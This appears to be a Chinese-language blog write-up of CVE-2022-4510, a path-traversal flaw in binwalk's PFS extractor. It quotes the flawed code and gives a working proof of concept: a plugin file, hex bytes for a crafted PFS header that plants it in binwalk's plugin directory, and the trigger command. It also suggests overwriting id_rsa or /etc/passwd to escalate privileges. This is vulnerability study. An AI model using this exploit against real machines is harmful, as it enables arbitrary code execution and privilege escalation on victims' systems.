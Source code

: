 ﻿# 简介
根据cve官方描述，从版本2.1.2到 2.3.3的binwalk中发现了一个路径遍历漏洞。此漏洞允许远程攻击者在安装受影响的binwalk机子上执行任意代码

# 什么是PFS文件
PFS文件是由PhotoFiltre Studio（图像修饰程序）创建的选择文件。 它包含图像编辑器的多边形选择工具使用的坐标，以便在给定坐标之间绘制线。 PFS文件以纯文本格式存储。

PFS文件格式
```
https://lekensteyn.nl/files/pfs/pfs.txt
```
# 分析源代码
一个PFS提取器插件在2017年合并到了binwalk中，做了一下修改
```
     def extractor(self, fname):
         fname = os.path.abspath(fname)
         out_dir = binwalk.core.common.unique_file_name(os.path.join(os.path.dirname(fname), "pfs-root"))

         try:
             with PFS(fname) as fs:  #读取pfs文件数据
               data = open(fname, 'rb')
               data = binwalk.core.common.BlockFile(fname, 'rb')
               data.seek(fs.get_end_of_meta_data())
               for entry in fs.entries():
                   outfile_path = os.path.join(out_dir, entry.fname)
                   if not outfile_path.startswith(out_dir): 
                        binwalk.core.common.warning("Unpfs extractor detected directory traversal attempt for file: '%s'. Refusing to extract." % outfile_path)
                    else:
                        self._create_dir_from_fname(outfile_path)
                        outfile = binwalk.core.common.BlockFile(outfile_path, 'wb')
                        outfile.write(data.read(entry.fsize))
                        outfile.close()
                 data.close()
         except KeyboardInterrupt as e:
             raise e
```
问题出现在os.path.join函数上，因为第11行的代码没有完全进行路径解析，所以第12行的条件就永远不会为真

![在这里插入图片描述](https://img-blog.csdnimg.cn/ad49dba936a847189abd044da3a7b2f9.png)

通过制作一个路径遍历的PFS文件，我们可以强制binwalk在目录之外写入文件



# POC
用户可以使用binwalk的 API 定义自己的插件，只需要把插件放在$HOME/.config/binwalk/plugins/目录下，之后运行binwalk时就会调用插件

恶意代码：
```
import binwalk.core.plugin

class MaliciousExtractor(binwalk.core.plugin.Plugin):
    def init(self):
        print("baimao")
```
保存后用winhex打开文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/45627e03e1dc45d58da9ad2902bf69ef.png)

直接粘贴以下十六进制数据

```
5046 532f 302e 3900 0000 0000 0000 0100
2e2e 2f2e 2e2f 2e2e 2f2e 636f 6e66 6967
2f62 696e 7761 6c6b 2f70 6c75 6769 6e73
2f6d 616c 7761 6c6b 2e70 7900 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
3412 0000 a000 0000 c100 0000
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/c3790ccbe4a44a1e9e1f2eaa66a40d2b.png)


将.py保存为.pfs文件，然后添加到压缩包里


![在这里插入图片描述](https://img-blog.csdnimg.cn/5a11136800e44ee087845eac778e202d.png)


当从用户的主目录中用binwalk提取文件时，会在.config/binwalk/plugins加入一个插件，这个恶意插件随后会被 binwalk 加载和执行，从而导致 RCE

```
cd ~
binwalk -M -e exp.zip
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3c08525f31bd40a794946df5bdaacb5d.png)

成功执行代码

# 总结
今年1月31号才披露细节的cve，学习了一下，除了覆盖./.config/binwalk/plugins/malwalk.py文件，我们还可以覆盖id.rsa或者/etc/passwd文件来直接提权

参考文档：
```
https://nvd.nist.gov/vuln/detail/CVE-2022-4510
https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk
```

